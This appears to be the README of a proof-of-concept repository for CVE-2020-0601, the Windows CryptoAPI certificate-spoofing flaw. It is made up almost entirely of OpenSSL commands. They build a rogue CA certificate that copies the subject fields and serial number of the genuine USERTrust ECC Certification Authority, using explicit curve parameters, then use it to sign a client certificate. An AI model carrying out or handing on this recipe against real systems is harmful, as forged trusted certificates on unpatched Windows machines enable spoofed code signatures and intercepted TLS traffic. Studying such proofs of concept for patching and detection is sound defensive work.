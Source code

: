 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt)

Key template:
openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit

To generate a private key which match the public key certificate we used the script **gen-key.py**. Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

The we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```